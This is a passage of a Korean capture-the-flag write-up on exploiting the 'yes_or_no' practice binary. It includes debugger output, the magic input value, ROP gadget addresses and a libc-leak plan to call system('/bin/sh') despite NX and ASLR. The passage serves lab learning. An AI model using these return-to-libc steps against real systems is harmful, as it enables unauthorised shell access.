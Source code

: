 ```bash
0056| 0x7fffffffdf48 --> 0x7fffffffe018 --> 0x7fffffffe356 ("/home/mac/Desktop/hackCTF/yes_or_no/yes_or_no")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004007b4 in main ()
gdb-peda$ 
```
`RAX` 레지스터에는 `0x960000`값이 들어가있으며 우리의 입력값과 이 값이 같은지 비교하므로 해당 값을 입력해줘야한다.

`0x960000` 16진수 값을 10진수로 변경하면 `9830400`이다.

프로그램 실행 후 해당값을 전달해보도록 한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF/yes_or_no
$ ./yes_or_no
Show me your number~!
9830400
Thats cool. Follow me
AAAA
```

분기문 루틴을 통과하고 `gets()` 함수가 실행되어 다시 입력받는것을 확인할 수 있다.

자 이제 어떻게 익스를 해야할지 시나리오를 구성해야한다.

`NX` 미티게이션이 채택되었으니 일반적인 쉘코드를 활용한 익스는 불가능하다.

또한,서버측에서 프로그램을 실행할 때 마다 주소가 변경되는 `ASLR` 미티게이션도 적용되어 있으므로 `RTL` 또는 `ROP` 기법을 이용한다.

`libc` 파일을 이용해 필요한 각 함수들의 `offset`을 구하고 서버쪽 파일을 이용하여 `libc_base` 주소를 `leak`한 뒤 메인으로 복귀하여 `system`함수를 실행시킨다.

결론적으로 `system`와 `binsh`의 주소가 필요하다.
이를 위해서는 `libc_base`의 주소를 얻어내야 하며 `puts`를 통해 `memory leak`을 진행한다.

- `pop rdi; ret` 가젯 획득 -> puts는 하나의 인자를 사용하는 함수이다, 따라서 pop ret 가젯을 구한다.
-  `puts`를 통해 libc_base 주소 획득
- `libc_base`, `system_addr`, `binsh_addr` 구하기



### Gadget 구하기
```bash
mac at ubuntu in ~/Desktop/hackCTF/yes_or_no
$ ROPgadget --binary yes_or_no|grep rdi
0x0000000000400883 : pop rdi ; ret
0x000000000040056e : ret
```
`ROPgadget`을 이용해서 적절한 `gadget`을 구한다.

-> `pop rdi; ret` : 0x400883
-> `ret` : 0x40056e

### libc_base & system_addr & binsh_addr 구하기
```bash
libc_base = puts_addr - puts_offset
system_addr = libc_base + system_offset
binsh_addr = libc_base + binsh_offset
```
